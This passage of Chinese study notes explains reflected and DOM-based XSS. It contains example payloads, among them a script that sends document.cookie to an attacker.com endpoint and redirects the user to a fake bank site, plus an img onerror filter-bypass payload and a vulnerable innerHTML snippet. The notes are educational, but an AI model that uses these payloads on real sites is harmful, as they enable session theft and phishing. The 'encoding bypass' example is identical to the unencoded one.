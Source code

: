   ```
  https://example.com/search?q=<script>alert('XSS')</script>
  ```

  更危险的例子：

  ```js
  // 攻击URL
  https://example.com/search?q=<script>
      // 窃取用户cookie
      fetch('https://attacker.com/steal?cookie=' + document.cookie);
      
      // 重定向到钓鱼网站
      window.location.href = 'https://fake-bank.com';
  </script>
  ```

  ```
  // 如果网站过滤了<script>标签
  // 攻击者可能使用：
  https://example.com/search?q=<img src=x onerror=alert('XSS')>
  
  // 或者使用编码绕过：
  https://example.com/search?q=<script>alert('XSS')</script>
  ```

- 当用户打开此URL时，网站的服务端将恶意代码从中取出，并且**拼接在HTML**返回给浏览器（这应该属于后端渲染范围）

- 恶意代码被浏览器执行，然后将用户数据发送给攻击者网站

DOM型XSS（感觉和反射型XSS很像，只不过这个是属于JavaScript的安全漏洞（浏览器的DOM解析），反射型XSS时属于服务端的安全漏洞），所以防范DOM型XSS是前端的责任

- 同样的，攻击者构造特殊URL，其中包含恶意代码

- 用户打开后，浏览器解析，**JavaScript取出URL**然后执行

  ```html
  <!-- 页面HTML -->
  <html>
  <head>
      <title>DOM XSS 示例</title>
  </head>
  <body>
      <div id="content"></div>
      
      <script>
          // 危险：直接使用location.hash，没有验证
          const hash = location.hash.substring(1); // 去掉#号
          document.getElementById('content').innerHTML = hash;
      </script>
  </body>
  </html>
  ```

  ```
  https://example.com/page.html#<script>alert('DOM XSS')</script>
  ```

